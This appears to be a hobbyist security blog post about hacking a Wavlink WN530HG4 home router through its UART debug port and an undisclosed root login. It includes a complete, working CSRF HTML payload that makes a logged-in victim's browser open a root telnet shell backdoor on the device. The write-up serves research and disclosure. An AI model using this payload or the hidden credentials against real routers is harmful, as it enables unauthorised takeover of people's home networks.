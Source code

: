 +++
date = "2020-09-06"
title = "Router hacking!"
slug = "Hacking the Wavlink WN530HG4"
tags = [
]
categories = [
]
externalLink = ""
series = []
+++
*Hello.*

I like to hack SoHo (small-office home-office) routers for fun, and I’ve recently acquired the “WAVLINK AC1200 Dual Band WiFi Router,Gigabit Ethernet 1200Mbps High Speed Long Range 300 Mbps (2.4GHz)+867 Mbps (5GHz), Wireless Internet Router for Home Office”. You can take a look at the device for sale [here](https://www.amazon.com/WAVLINK-Extender-Coverage-1200Mbps-Wireless/dp/B07THZ9LBK/ref=sr_1_3?dchild=1&keywords=wavelink+router&qid=1599340954&sr=8-3).

This will be a three part blogpost. The first part  will be about publicly known vulnerabilities I found immediately. The second will be about anything I found on a deeper dive into the device’s file system. Post three will be a full audit of the device in accordance with OWASP IoT top vulnerabilities such as those listed [here](https://wiki.owasp.org/index.php/OWASP_Internet_of_Things_Project#tab=IoT_Top_10). 

To begin, a quick google search of the device brings up an interesting group of vulnerabilities:

- [/adm.cgi endpoint that processes commands without verifying their origin](https://vulmon.com/vulnerabilitydetails?qid=CVE-2020-10971&scoretype=cvssv2)

- [unauthenticated system information disclosure](https://vulmon.com/vulnerabilitydetails?qid=CVE-2020-12266&scoretype=cvssv2)

- [unauthenticated administrator password disclosure](https://vulmon.com/vulnerabilitydetails?qid=CVE-2020-10974&scoretype=cvssv2)

Unfortunately the actual exploitation of the issues is not well documented, so I decided to investigate this device to see for myself how they were exploited. First, I would need to interface with the device's on-board operating system.

To do that, we need to pop open the device and take a look at the circuit board. A lot of modern routers like to keep the top of its plastic shell in place with screws which they hide under some stickers. I found this router’s screws on the bottom of the plastic casing.

![Bottom of the router. The red light shining through is where the screw used to be!](../post2/1.jpg)

Once those are gone, we can set about looking at the router’s guts. Here’s a pic of the circuit board.

![The Wavlink router's circuit board.](../post2/2.jpg)

And look here, in the upper right corner. This is a debugging interface for the manufacturers who program this circuit board. These four ports here are a UART interface, which stands for universal asynchronous receiver-transmitter, a computer hardware device for asynchronous serial communication in which the data format and transmission speeds are configurable (more on that in transmission speed in a bit). 

![The UART interface on the circuit board.](../post2/3.jpg)

In layman’s terms, if we connect "something" that can talk to UART, and then have that same "something" also be able to talk to our computer, then we can use our computer to talk to the circuit board’s operating system. So what can we use to do that? We can use [this](https://www.amazon.com/gp/product/B00IJXZQ7C/ref=ppx_yo_dt_b_search_asin_title?ie=UTF8&psc=1)!

![Yaaaarrrrrr, the buspirate!](../post2/4.jpg)

The HiLetgo FT232RL adapter is a hacker multi-tool that talks to electronic stuff, such as our UART port here. Connecting our adapter to the UART port requires us to solder some jumper wires from the UART interface… 

![Soldered jumper wires on the UART interface.](../post2/5.jpg)

...which will connect to the pointy end here on our adapter.

![Connecting our jumper wires from the board to the adapter.](../post2/6.jpg)

So, now that we have our adapter connected, let’s turn on the router and see what happens. We’ve set up our computer to receive the signal from our adapter, but we aren’t certain about the baud rate being used. In digital communications, symbol rate, also known as baud rate and modulation rate, is the number of symbol changes, waveform changes, or signaling events across the transmission medium per time unit using a digitally modulated signal or a line code (remember when we mentioned signal transmission speed earlier?). We don’t know how fast the signal coming from the board is to our adapter, so if we don’t tune the connection to our adapter with the proper baud rate, we will get a bunch of gobbledygook like in the following screenshot.

![Our adapter is tuned to the wrong baud rate, so it interprets the board's signal incorrectly.](../post2/7.jpg)

But, after some tedious trial and error, we have identified the baud rate as 57600. Once we modify our computer’s receive (the Linux program ‘screen’) to interpret the signal correctly, we get some nice, human-readable terminal output!

![After the baud rate is set correctly, we can see the UART output!](../post2/8.jpg)

Great! So if we wait long enough, we will eventually be asked for our Wavlink login. 

![What could the username/password be?](../post2/9.jpg)

But we don’t know the admin account name. Luckily, when we connect to the access point and configure the login password for the web app…

![Setting the router config password.](../post2/10.jpg)

We get this helpful message in the UART output.

![The UART output with a suspicious username parameter.](../post2/11.jpg)

Now, at no point during the WAP wizard was I asked for a username, but here we can see the username parameter of “admin2860” being transmitted through UART output. So, maybe we can just login with that?

![Will admin2860 work?](../post2/12.jpg)

Great! We've logged in and now have root access to the device. Let’s sniff around and see if we find anything really stupid, like those VulnMon entries we discovered earlier.

Eventually, we find the web directory, and there’s a lot in here. After some poking around, we find this (undocumented in the user manual!) webpage called “webcmd.shtml”.

![Sniffing around the router's filesystem.](../post2/13.jpg)

If we bring up “webcmd.shtml” in our browser we see...this.

![WTF???!!](../post2/14.jpg)

So we can just pass system commands to the underlying operating system! Does it work…?

![WTF???!!!?!?!?!?!?](../post2/15.jpg)

Wow, so we can read the systems password file, so everything runs as root (like the Administrator account in Windows). Nice one, Wavlink. If we inspect the web page’s HTML here, we can see that it makes a POST request to the “/cgi-bin/adm.cgi” endpoint. That endpoint is in one of the Vulnmon entries earlier in this post, so this must be vulnerable to Cross Site Request Forgery (CSRF).

![Inspecting the web page's HTML.](../post2/16.jpg)

In applications that are vulnerable to Cross Site Request Forgery (CSRF), an attacker can craft a malicious webpage that, when viewed by the victim, will force their browser to make a request to the vulnerable endpoint.

Earlier while I was digging through the filesystem, I found that the Telnet daemon, a legacy networking server, was installed on the Wavlink router. Let’s see if we can make a malicious webpage that fires off a request to “webcmd” from our victim that will force the router to open up a Telnet backdoor. 

Here’s what the malicious webpage might look like.

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.10.1/cgi-bin/adm.cgi" method="POST">
      <input type="hidden" name="page" value="sysCMD" />
      <input type="hidden" name="command" value="telnetd&#32;&#45;l&#32;&#47;bin&#47;sh&#32;&#45;p&#32;1234" />
      <input type="hidden" name="SystemCommandSubmit" value="Apply" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

And here’s the attack in action. Here, I’m simulating our victim, currently logged into the router…

![Our innocent victim, logged into their router.](../post2/17.jpg)

...but opening up our malicious webpage, which will send a request to the vulnerable endpoint in the context of the user’s session!

![Triggering the CSRF payload.](../post2/18.jpg)

![Our telnet backdoor, visible in the device's process list.](../post2/19.jpg)

And now, even though we get a 404 error from the web server, we can see (red box) that the telnet backdoor has been opened. We connect, and now we have pwned the device!

![Viewing the open port on a network scan.](../post2/20.jpg)

![Connecting to our telnet backdoor.](../post2/21.jpg)

That's all for now. I'll post again when I find something silly on another router. 

*Goodbye.*
